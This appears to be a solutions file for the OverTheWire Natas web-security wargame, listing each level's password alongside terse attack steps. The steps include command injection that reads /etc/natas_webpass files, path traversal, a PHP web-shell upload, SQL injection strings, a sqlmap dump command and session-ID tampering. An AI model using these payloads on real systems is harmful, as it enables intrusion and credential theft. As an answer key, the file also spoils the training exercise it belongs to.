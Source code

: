 # Level Natas

## 0
gtVrDuiDfck831PqWsLEZy5gyDz1clto

## 1
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## 2
/files/user.txt
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

## 3
gobuster dir -u http://natas3.natas.labs.overthewire.org/ -U natas3 -P sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x ".txt"

Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## 4
Referer: http://natas5.natas.labs.overthewire.org/
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## 5
loggedin = 1
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## 6
view sourcecode -> includes/secret.inc-> FOEIUWGHFEEUHOFUOIU
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## 7
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8&#8221
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

## 8
php> echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## 9
word; cat /etc/natas_webpass/natas10 #
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## 10
u /etc/natas_webpass/natas11 #
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## 11
Guess the XOR key with default value
php reverse_enginner_natas11.php
EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## 12
sudo echo "<?php echo exec("cat /etc/natas_webpass/natas13"); ?>" > natas12.jpg
Upload File
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## 13
natas13.natas.labs.overthewire.org/?cmd=cat%20/etc/natas_webpass/natas14
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## 14
natas15" # || natas15" or 1=1# 
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

## 15
sudo sqlmap -u http://natas15.natas.labs.overthewire.org/ --proxy=http://127.0.0.1:8080 --string="This user exists." --auth-type=Basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data "username=natas16" --level=5 --risk=3 -D natas15 -T users -C username,password --dump

OR

blind_sql_natas16.py
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

## 16
natas16.py
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

## 17
natas17.py
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

## 18
natas18.py
SESSIONID :119
4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## 19
Found out PHPSESSID pattern (id-username) by decode('hex') (ex: 281-admin)
natas19.py
SESSIONID : 281
eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

## 20
post request with data:
name=foo+admin 1
(key,value) -> (admin,1)
IFekPyrQXftziDEsUr3x21sYuahypdgJ